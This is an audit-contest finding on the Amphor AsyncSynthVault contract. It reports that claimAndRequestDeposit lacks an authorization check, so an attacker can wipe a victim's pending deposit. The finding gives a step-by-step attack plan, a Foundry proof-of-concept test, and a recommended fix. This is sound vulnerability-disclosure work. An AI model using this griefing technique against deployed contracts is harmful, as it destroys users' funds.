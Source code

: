 Mythical Cyan Bat

high

# An attacker can grief any user's funds by calling `claimAndRequestDeposit`

## Summary
A malicious actor can exploit a vulnerability in the [`claimAndRequestDeposit`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L204) function by specifying a victim's address as the `receiver`, leading to the loss of the victim's funds.

## Vulnerability Detail
The [`claimAndRequestDeposit`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L204) function, when invoked, calls the [`_claimDeposit`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L742) function with both the `owner` and `receiver` parameters set to the value of the `receiver` input parameter. This action skips any form of authorization verification, thereby allowing a malicious user to execute [`_claimDeposit`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L742) on behalf of another user. Note that [claiming a deposit within the same Epoch as the deposit request results in the forfeiture of the pending deposit balance](https://gist.github.com/SaahilMittal/522dcffaf4ce7677873a8626fac6e675). Consequently, an attacker can zero out a user's pending deposit balance by triggering [`_claimDeposit`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L742) for the victim within the same Epoch the deposit request was made.

Attack plan : 
1. The victim initiates a deposit through [`requestDeposit`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L439), contributing an `assets` amount of tokens.
2. This action results in a pending deposit balance equal to the `assets` amount for the victim.
3. An attacker executes `claimAndRequestDeposit(
        uint256 assets,
        address receiver,
        bytes memory data
    )`, setting `assets` to 0 and `receiver` to the victim's address.
4. Subsequently, the victim's pending deposit balance is reset to zero without any shares being allocated to them, effectively leading to a total loss of their funds, while the attacker incurs no losses.

Proof of Code : 

```solidity
function test_poc() external {
        // set token balances
        deal(vaultTested.asset(), user1.addr, 20);
        deal(vaultTested.asset(), user2.addr, type(uint256).max);
                
        // initial deposit when vault is open
        vm.startPrank(user2.addr);
        IERC20Metadata(vaultTested.asset()).approve(address(vaultTested), 10);
        vaultTested.deposit(10, user2.addr);
        vm.stopPrank();

        // owner closes the vault
        vm.prank(vaultTested.owner());
        vaultTested.close();
        
        vm.startPrank(user1.addr);
        IERC20Metadata(vaultTested.asset()).approve(address(vaultTested), 20);
        // user1 requests a deposit
        vaultTested.requestDeposit(20, user1.addr, user1.addr, "");
        // user1 checks the pending deposit request amount
        assertEq(vaultTested.pendingDepositRequest(user1.addr), 20);
        vm.stopPrank();

        vm.startPrank(user3.addr);
        // attacker griefs the user1's deposit request
        vaultTested.claimAndRequestDeposit(0, user1.addr, "");
        vm.stopPrank();

        // all the balances of user1 are zero, indicating loss of funds
        assertEq(vaultTested.pendingDepositRequest(user1.addr), 0);
        assertEq(vaultTested.balanceOf(user1.addr), 0);
        assertEq(IERC20Metadata(vaultTested.asset()).balanceOf(user1.addr), 0);
    }
 ```
To run the test :

1. Copy the above code and paste it into `TestClaimDeposit.t.sol`
2. Run `forge test --match-test test_poc --ffi`
## Impact
The attacker causes the user to lose all of their balance.
## Code Snippet
## Tool used

Manual Review
Foundry

## Recommendation
Implement an authorization mechanism by incorporating `msg.sender` as arguments to `_claimDeposit` within the `claimAndRequestDeposit` function.


